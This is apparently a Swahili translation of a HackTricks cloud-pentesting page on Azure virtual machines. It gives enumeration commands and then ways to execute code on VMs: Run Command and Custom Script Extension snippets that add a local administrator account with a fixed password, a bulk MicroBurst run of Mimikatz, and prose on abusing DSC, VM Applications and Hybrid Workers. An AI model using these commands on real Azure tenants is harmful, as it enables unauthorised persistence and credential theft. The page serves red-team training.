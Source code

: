 # Az - Mashine za Kielektroniki & Mtandao

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwenye docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Mashine za kielektroniki za Azure ni mojawapo ya aina kadhaa za [rasilimali za kompyuta zinazopatikana kwa mahitaji](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kwa kawaida, unachagua mashine ya kielektroniki unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguzi nyingine. Makala hii inakupa taarifa kuhusu kile unapaswa kuzingatia kabla ya kuunda mashine ya kielektroniki, jinsi ya kuunda hiyo, na jinsi ya kuisimamia.

## Taarifa za Mtandao wa Azure

Mitandao ya Azure ina **entiti tofauti na njia za kuikamilisha.** Unaweza kupata **maelezo mafupi,** **mfano** na **amri za kuhesabu** za entiti tofauti za mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililohudumiwa kikamilifu la RDP (Remote Desktop Protocol) na SSH (Secure Shell) kupitia SSL kupitia lango la Azure. Imeunganishwa ndani ya Mtandao wa Kielektroniki wa Azure, ikiruhusu muunganisho wa RDP na SSH kwa VMs kwa kutumia IP za kibinafsi, ikiepuka hitaji la IP za umma. Hii inafanya kuwa mbadala salama na rahisi zaidi kwa mbinu za jadi zinazohusisha ugawaji wa IP za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Wanaendeleza na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kutoka kwenye lango la Azure wakitumia vivinjari vya wavuti, wakifanya mchakato kuwa rahisi kwa mazingira ya maendeleo na majaribio.

Ili orodhesha Hosts zote za Azure Bastion katika usajili wako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Uainishaji wa VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Kimbia amri katika VM**

### **AAD Kuingia katika VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji walioidhinishwa kupitia AzureAD. Kwa mfano, kujaribu kufikia **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumika unapojaribu kuingia) unaweza kupata kosa kama: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Fuata **maagizo hayo** kwa kutembelea [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuonyesha msimbo, tumia barua pepe na nenosiri kama ithibitisho na utaweza kuungana kupitia SSH (ikiwa mtumiaji huyo ana ruhusa za kutosha kufanya hivyo: `Virtual Machine Administrator Login` au `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Run Custom Script Extension**

Azure virtual machine (VM) extensions ni **programu ndogo** ambazo zinatoa usanidi wa baada ya kupeleka na **kazi** za automatisering kwenye **Azure VMs**. Kwa mfano, ikiwa mashine ya virtual inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha script ndani yake, unaweza kutumia nyongeza ya VM.

Hivyo, ikiwa una ufikiaji wa kuandika, unaweza kutekeleza msimbo wowote:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kwa ajili ya kuandaa mwenyeji kupitia msimbo. DSC inajumuisha na Azure, ikiruhusu upakuaji wa faili maalum za usanidi. Faili hizi zinapaswa kufuata sarufi kali. Kwa kuzingatia, nyongeza ya DSC katika Azure inaweza kutekeleza amri kutoka kwa faili ambazo zinakidhi vigezo fulani vya muundo, hata kama sarufi si sahihi kwa viwango vya DSC, kama inavyoonyeshwa katika picha iliyotolewa.

Utekelezaji wa amri hizi unarahisishwa na [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) kazi katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyofafanuliwa na faili hiyo inapaswa kufungwa katika faili ya **.zip**. Ingawa sarufi inaweza kuwa si sahihi kwa DSC, msimbo bado utaweza kutekelezwa. Hata hivyo, nyongeza itakadiria hali ya utekelezaji kama "kushindwa," na hakuna matokeo kutoka kwa amri yatakayokuwa yanaonekana kutokana na hali hiyo kufutwa na ujumbe wa kushindwa.

### VM Application Definitions

VM Application Definitions zinaruhusu upakuaji wa kurudiwa wa programu zenye toleo kwa VM ya Azure. Rasilimali hii inasaidia upakuaji na sasisho la programu katika VMs. Ili kuanzisha hii, hatua kadhaa zinahitajika, zikihusisha amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa programu au amri kupitia njia hii unahusisha **"VMAppExtension,"** ambayo inasakinishwa kiotomatiki wakati programu inapowekwa kwenye VM. Nyongeza inachukua faili kutoka URI iliyotolewa na kuipa jina sawa na programu, bila nyongeza. Ili kutekeleza faili hiyo kwa usahihi, uwanja wa "ManageActions" katika wito wa REST API unapaswa kuwekewa jina faili hiyo kwa nyongeza inayofaa. Mpangilio wa njia hii, mara tu ukikamilika, utafanana na muundo ulioonyeshwa katika picha iliyotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole, ikichukua takriban dakika 3-4 kutekeleza programu au amri. Faili zinazohusiana na mchakato huu zimehifadhiwa katika directories maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya programu na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote mbili zinatoa njia za kipekee za kutekeleza amri na kupakia programu katika mazingira ya Azure, kila moja ikiwa na seti yake ya mahitaji, hatua, na mambo ya kuzingatia.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) ni kipengele katika Azure kinachoruhusu Runbooks, zilizowekwa katika Akaunti ya Automation, kutekelezwa kwenye Mashine Halisi ya Azure (VM) ambayo ni sehemu ya HWG iliyoteuliwa. Utekelezaji huu unarahisishwa kupitia nyongeza iliyosakinishwa kwenye VM, ambayo inapeleka msimbo wa Runbook kwenye VM. Kipengele muhimu cha mchakato huu ni kwamba akreditif halisi si kipengele katika utekelezaji kwa sababu msimbo unatekelezwa kwa mamlaka ya juu, hasa kama **SYSTEM** au root, kama inavyoonyeshwa katika picha iliyotolewa.

Maelezo muhimu kwa wale wanaotumia VMs za Windows 10 ni hitaji la kubainisha toleo la PowerShell kwa Runbook. Inapaswa kuwekwa kutekelezwa kama Toleo la PowerShell 5.1 badala ya 7.1. Hitaji hili linatokana na ukweli kwamba PowerShell 7.1 haijasanidiwa kwa kawaida kwenye VMs hizi, na kusababisha kushindwa kwa utekelezaji wa skripti ikiwa toleo 7.1 limewekwa.

Kipengele hiki cha Azure kinatoa njia thabiti ya kujiendesha na kusimamia kazi katika mazingira ya mseto, ikiruhusu usimamizi wa kati na utekelezaji wa kazi kwenye VMs za Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
